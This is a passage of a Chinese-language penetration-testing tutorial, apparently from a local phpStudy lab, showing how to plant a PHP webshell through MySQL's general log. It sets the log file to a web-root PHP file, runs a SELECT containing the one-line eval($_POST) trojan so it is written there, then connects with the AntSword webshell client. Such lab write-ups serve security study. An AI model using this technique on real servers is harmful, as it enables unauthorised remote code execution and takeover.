         3. 设置完后再检查参数是否设置成功
            
            ```python
            general_log 	ON
            general_log_file 	C:/phpStudy/WWW/test.php
            ```
            
        4. 设置成功，然后我们在执行栏输入恶意语句
            
            ```python
            select "<?php eval($_POST[1]); ?>";
            ```
            
        5. 执行完后，会被写入到日志文件里（`C:/phpStudy/WWW/test.php`），就是已经将一句话木马写入了`test.php`
            
            ![image.png](image%204.png)
            
6. 使用蚁🗡连接
    
    ![image.png](image%205.png)
    